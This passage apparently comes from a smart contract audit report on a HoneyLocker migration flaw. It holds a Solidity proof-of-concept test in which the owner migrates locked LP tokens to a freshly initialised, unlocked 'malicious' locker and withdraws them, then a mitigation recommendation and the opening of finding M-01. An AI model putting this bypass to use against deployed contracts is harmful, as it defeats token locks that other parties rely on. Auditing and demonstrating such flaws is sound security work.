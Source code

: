 ```solidity
function test_migrationExploit() external prankAsTHJ {
    // LEGIT SETUP

    // deposit first some into contract
    uint256 balance = HONEYBERA_LP.balanceOf(THJ);
    HONEYBERA_LP.approve(address(honeyLocker), balance);
    honeyLocker.depositAndLock(address(HONEYBERA_LP), balance, expiration);

    // clone it
    HoneyLockerV2 honeyLockerV2 = new HoneyLockerV2();
    honeyLockerV2.initialize(THJ, address(honeyQueen), referral, false);

    // set hashcode in honeyqueen then attempt migration
    honeyQueen.setMigrationFlag(true, address(honeyLocker).codehash, address(honeyLockerV2).codehash);

    // CREATE A NEW LOCKER, INITIALIZE IT WITH MALICIOUS DATA AND MIGRATE TO IT
    HoneyLockerV2 maliciousLocker = new HoneyLockerV2();
    address maliciousHoneyQueen = makeAddr("MALICIOUS_HONEY_QUEEN");
    address anotherReferral = makeAddr("ANOTHER_REFERRAL");
    bool unlocked = true;
    maliciousLocker.initialize(THJ, address(maliciousHoneyQueen), anotherReferral, unlocked);

    honeyLocker.migrate(SLA.addresses(address(HONEYBERA_LP)), SLA.uint256s(balance), payable(address(maliciousLocker)));
    assertEq(HONEYBERA_LP.balanceOf(address(maliciousLocker)), balance);

    // The malicious owner got back their tokens
    maliciousLocker.withdrawLPToken(address(HONEYBERA_LP), balance);
    assertEq(HONEYBERA_LP.balanceOf(THJ), balance);
}
```

## Recommendations

One possible way to mitigate this is to add additional checks to verify that the `unlocked`, `HONEY_QUEEN`, and `referral` values are the same in both locks.

# [M-01] Function `isTargetContractAllowed` always returns true

## Severity

**Impact:** High

**Likelihood:** Low

## Description
